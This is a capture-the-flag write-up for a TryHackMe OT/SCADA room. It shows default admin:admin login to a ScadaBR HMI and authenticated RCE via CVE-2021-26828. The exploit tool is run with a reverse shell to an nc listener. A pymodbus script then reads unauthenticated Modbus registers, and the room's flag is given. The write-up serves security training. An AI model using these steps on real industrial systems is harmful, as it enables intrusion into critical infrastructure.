









**Platform:** TryHackMe  
**Room:** [https://tryhackme.com/room/brr](https://tryhackme.com/room/brr)  
**Difficulty:** Easy  
**Tags:** OT, SCADA, Web, RCE, Modbus  
**Date:** 2026-10-06

---
## Overview
"You've been called in to assess an OT environment."

A SCADA/OT room exposing a **ScadaBR HMI** on port `8080`. Default credentials lead to authenticated RCE via **CVE-2021-26828** (ScadaBR < 1.1.0). After landing a reverse shell as `tomcat7`, a non-standard **Modbus TCP** service on port `5020` leaks the flag directly from holding registers, no file system access required.

#### Kill Chain

```
Recon -> ScadaBR (admin:admin) -> CVE-2021-26828 RCE -> reverse shell
  -> Modbus TCP :5020 -> read holding registers -> ASCII decode -> flag
```

---
## Tools Used

- `nmap` - port/service discovery
- **ScadaFlare** - ScadaBR authenticated RCE exploit (CVE-2021-26828) - [github.com/ridpath/CVE-2021-26828-Ultimate](https://github.com/ridpath/CVE-2021-26828-Ultimate)
- `nc` - reverse shell listener
- `pymodbus` - Modbus TCP client
- `curl` - HTTP probing

---
## Reconnaissance

### Full Port Scan

```
sudo nmap -sV -sC -p- 10.112.186.209 -oN scan.txt -vv
```





Key findings:

| Port | Service | Version / Notes                               |
| ---- | ------- | --------------------------------------------- |
| 22   | SSH     | OpenSSH 9.6p1 Ubuntu 3ubuntu13.11             |
| 80   | HTTP    | WebSockify Python/3.12.3                      |
| 5020 | unknown | Likely **Modbus TCP** (standard 502 remapped) |
| 5901 | VNC     | Protocol 3.8 (VeNCrypt + VNC Auth)            |
| 8080 | HTTP    | **ScadaBR CTF** - Apache Tomcat/Coyote 1.1    |

The interesting targets are 8080 (SCADA HMI) and 5020 (OT protocol).

### Web Enumeration - ScadaBR

Browsing to `http://10.112.186.209:8080/ScadaBR/` presents the ScadaBR login panel.




---
## Initial Access - Default Credentials

The ScadaBR login accepted the default credentials:

- **Username:** `admin`
- **Password:** `admin`

After login, the interface exposes an `SQL` console and an `Import/Export` panel, both of which are powerful post-auth surfaces.



A quick DB enumeration via the SQL console confirmed the underlying stack:

```
SELECT VERSION();
```



This told us the ScadaBR app runs on an **Ubuntu 16.04 MariaDB** container, which is vulnerable to the ScadaBR authenticated file-upload RCE.

---
## RCE via CVE-2021-26828 (ScadaBR < 1.1.0)

ScadaBR's `view_edit.shtm` upload endpoint accepts a malicious `.jsp` payload that is written to the web directory and executed by Tomcat. This is **CVE-2021-26828**, discovered by Fellipe Oliveira.

Weaponized with the **ScadaFlare** framework:

```
git clone https://github.com/ridpath/CVE-2021-26828-Ultimate
cd CVE-2021-26828-Ultimate
pip3 install -r requirements.txt
```

Start the listener:

```
nc -nvlp 4444
```

Launch the exploit:

```
python3 scadaflare.py http://10.112.186.209:8080 admin admin \
--reverse-ip "My machine's IP" --reverse-port 4444 \
--verbose --cleanup
```

ScadaFlare handles the entire chain: login, payload generation, upload via `view_edit.shtm`, reverse shell trigger, and shell cleanup.



**Result:** reverse shell as `tomcat7`.

```
tomcat7@77f992b1ebf5:/var/lib/tomcat7/webapps/ScadaBR/resources$
```

---
## Shell Obtained, No Flag on Disk

At this point we have RCE, but that is not the objective. The flag is not in the container. We confirm this with a targeted search:





The only hits are system artifacts and ScadaBR icon assets (`flag_red.png`, `flag_green.png`, etc.). There is no `flag.txt`, no `user.txt`, no `root.txt`. The reverse shell gave us **a foothold inside the SCADA application container, not the flag**.

This is where the room forces a pivot back to the OT protocol layer.

---
## Pivot to Modbus (OT Protocol)

Revisiting the nmap scan, port `5020` stands out. The standard Modbus TCP port is `502`, so a remap to `5020` strongly suggests an OT service. If the flag is not on disk, it is likely in the industrial protocol itself.

Using `pymodbus`:

```
python3 -c "
from pymodbus.client import ModbusTcpClient
c = ModbusTcpClient('10.112.186.209', port=5020)
c.connect()
for u in range(0, 1):
    r = c.read_holding_registers(0, count=20, device_id=u)
    if not r.isError():
        print(f'Unit {u}: {r.registers}')
c.close()
"
```

**Output:**

```
Unit 0: [84, 72, 77, 123, 109, 111, 100, 98, 117, 115, 95, 104, 105, 100, 125, 0, 0, 0, 0, 0]
```

**Note on `pymodbus` versions:** The keyword changed across releases: `slave` (v1.x) -> `unit` (v2.x) -> `device_id` (v3.13+). If you hit `TypeError: ... unexpected keyword argument`, check `pip show pymodbus` and pick the correct one.

---
## Decoding the Flag

The holding registers are plain **ASCII decimal values**. Decode them:

```
regs = [84, 72, 77, 123, 109, 111, 100, 98, 117, 115, 95, 104, 105, 100, 125]
flag = ""
for x in regs:
    flag += chr(x)
print(flag)
```

| Decimal | Char | Decimal | Char           |
| ------- | ---- | ------- | -------------- |
| 84      | T    | 95      | _              |
| 72      | H    | 104     | h              |
| 77      | M    | 105     | i              |
| 123     | {    | 100     | d              |
| 109     | m    | 125     | }              |
| 111     | o    | 0       | (null padding) |
| 100     | d    |         |                |
| 98      | b    |         |                |
| 117     | u    |         |                |
| 115     | s    |         |                |

**Result:**


#### Flag:

```
THM{modbus_hid}
```

---
## Lessons Learned

1. **RCE is not the goal, it is a capability.** A shell in the application container does not mean the flag is on that filesystem. Always confirm what you actually gained access to before hunting for files.
2. **In OT rooms, the flag may live in the protocol layer, not on disk.** Modbus holding registers, coils, and input registers can carry data that no file-based search will ever surface.
3. **SCADA HMIs are high-value, low-friction targets.** Default `admin:admin` on an internet-facing ScadaBR panel is a realistic OT misconfiguration.
4. **CVE-2021-26828 is a reliable ScadaBR exploit.** The `view_edit.shtm` endpoint writes attacker-controlled `.jsp` files into the Tomcat webroot.
5. **Port remapping (`502` to `5020`) is a common CTF trick.** Always scan the full range and treat unfamiliar high ports as candidate OT protocols.
6. **Modbus TCP has no authentication by design.** If you can reach the port, you can read and write coils and registers.

---
## References

- [CVE-2021-26828 - ScadaBR Authenticated RCE (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2021-26828)
- [ScadaFlare - ridpath/CVE-2021-26828-Ultimate](https://github.com/ridpath/CVE-2021-26828-Ultimate)
- [pymodbus documentation](https://pymodbus.readthedocs.io/)
- [MITRE ATT&CK for ICS](https://attack.mitre.org/matrices/ics/)

